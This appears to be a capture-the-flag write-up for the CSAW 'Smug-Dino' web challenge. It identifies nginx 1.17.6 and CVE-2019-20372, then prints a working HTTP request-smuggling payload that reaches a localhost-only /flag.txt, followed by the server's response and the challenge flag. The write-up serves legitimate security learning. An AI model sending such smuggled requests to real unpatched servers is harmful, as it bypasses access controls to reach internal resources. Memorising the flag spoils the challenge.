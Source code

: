 # Smug-Dino

[toc]

## Description
Don't you know it's wrong to smuggle dinosaurs... and other things?

Author: rollingcoconut

## Solution
This is a WEB category challenge with 50 Points.
When we go to http://web.csaw.io:3009/, we will saw the home page with three Buttons
1. Home
2. Hint
3. Flag?
![home_page](../src/img/smug_dino_homepage.png)


After clicked `Hint` button, we are directed to `http://web.csaw.io:3009/succeed_hint`, the page is asking us to enter the `Server name` & `Server Version` before we can get the hint.
So, let's find them.

Click `F12` enter to the Inspector mode and check for the Network section.
We can get the server's name and version from the Response Header :
```
Server : nginx/1.17.6
```
![response_head](../src/img/server_name_version.png)
We just enter the server's name and version, then we got the Hints

```
HINT: #1

We believe the item you seek is only accessible to localhost clients on the server; 
All other requests to /flag will be processed as a 401. 


It seems the server is issuing 302 redirections to handle 401 erors...
Is it possible to use the redirection somehow to get the localhost flag?



HINT: #2

CVE 2019-....

```

After I do some research on the Internet, I found that this is a vulnerability of CVE-2019-20372 (nginx HTTP request smuggling)


The ways to exploit this vulnerability is to send two request in one time to get the flag.txt that we want.
I am using `Burpsuit` here to exploit :
```
GET / HTTP/1.1
Host: web.csaw.io:3009
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Length: 4



GET /flag.txt HTTP/1.1
Host: localhost:3009

```
There are three things important in this request raws
First, we need to keep the Connection alive
```
Connection: keep-alive
```
Adding a special request header Connection: Keep-Alive to the HTTP request, telling the server not to close the TCP link after receiving this HTTP request, and to reuse this request for subsequent HTTP requests to the same target server. A TCP link requires only one TCP handshake process, which can reduce server overhead, save resources, and speed up access. Of course, this feature is enabled by default in HTTP 1.1.

Second, we are able to send two requests in one time because for the front-end server it looks like only one request. (Vulnerability)

Third, we need to make sure the host of the second request : `GET /flag.txt HTTP/1.1` to be `localhost:3009` because the web page has been redirected to local.

After that, we can get the flag in the Response :
```
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Sat, 16 Sep 2023 13:53:14 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1952
Connection: keep-alive
X-Powered-By: Express
ETag: W/"7a0-qKx6Ou+8z9np0jE0RYCSKOhMytk"
Set-Cookie: connect.sid=s%3Aram2WsuxHt7YeDgbc2VzFQaWF2pBVEue.mEokkn7jr%2Fj2ayIH4FO%2FNdP%2FxGQH6NyndSfz2xfjjkQ; Path=/; HttpOnly

<!DOCTYPE html>
<html lang="en">

<head>
    <title>All about dinos :) </title>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.1.3/css/bootstrap.min.css" integrity="sha384-MCw98/SFnGE8fJT3GXwEOngsV7Zt27NXFoaoApmYm81iuXoPkFOJwJ8ERdknLPMO" crossorigin="anonymous">
    <link href="css/styles.css" rel="stylesheet">
    <link href="https://fonts.googleapis.com/css?family=Merriweather:400,700" rel="stylesheet" type="text/css">
</head>

<body>
    <nav class="navbar navbar-dark bg-dark navbar-static-top navbar-expand-md">
        <div class="container">
            <button type="button" class="navbar-toggler collapsed" data-toggle="collapse" data-target="#bs-example-navbar-collapse-1" aria-expanded="false"> <span class="sr-only">Toggle navigation</span>
            </button> <a class="navbar-brand" href="#">Smug Dino</a>
            <div class="collapse navbar-collapse" id="bs-example-navbar-collapse-1">
                <ul class="nav navbar-nav mr-auto">
                    <li class="active nav-item"><a href="/" class="nav-link">Home</a>
                    </li>
                    <li class="nav-item"><a href="/hint" class="nav-link">Hint</a>
                    </li>
                    <li class="nav-item"><a href="/flag" class="nav-link">Flag?</a>
                    </li>
                </ul>
            </div>
        </div>
    </nav>
    <div class="jumbotron">
        <div class="container">
            <h1>What's your favorite dinosuar?</h1>
	    <h5>Ancient artifacts can teach us a lot -- just don't have them in your code!</h5>
	    <div style="max-height:450px; max-width:450px; overflow: hidden">
	        <img src="https://upload.wikimedia.org/wikipedia/commons/4/46/Lambeosaurus_magnicristatus_DB.jpg">
           </div>
            <br>
        </div>
    </div>

</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Sat, 16 Sep 2023 13:53:14 GMT
Content-Type: text/plain
Content-Length: 29
Connection: keep-alive

csawctf{d0nt_smuggl3_Fla6s_!}
```


## Flag
```
csawctf{d0nt_smuggl3_Fla6s_!}
```
